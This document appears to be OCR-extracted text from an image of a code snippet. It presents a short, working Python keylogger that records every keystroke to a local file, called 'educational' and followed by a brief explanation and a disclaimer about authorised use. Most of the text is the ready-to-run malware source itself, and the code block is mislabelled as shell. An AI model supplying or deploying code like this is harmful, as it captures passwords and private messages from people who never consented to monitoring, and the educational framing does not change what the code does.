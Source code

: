 Here's a basic example of malware code for educational purposes only. This script is meant to illustrate what malicious code might look like, and it should never be used for harm.

```sh
import os
import time
import pynput.keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f"[{key}]")

def start_keylogger():
    with pynput.keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    start_keylogger()
```

# Explanation:

Imports: Uses pynput to listen to keyboard events.
on_press function: Captures and logs keystrokes to a file named keylog.txt.
start_keylogger function: Initializes the keylogger and starts listening for keypresses.
Important Note: This code is only for educational and ethical hacking purposes. Unauthorized use of such scripts is illegal and unethical. Always get proper authorization before testing any security vulnerabilities.
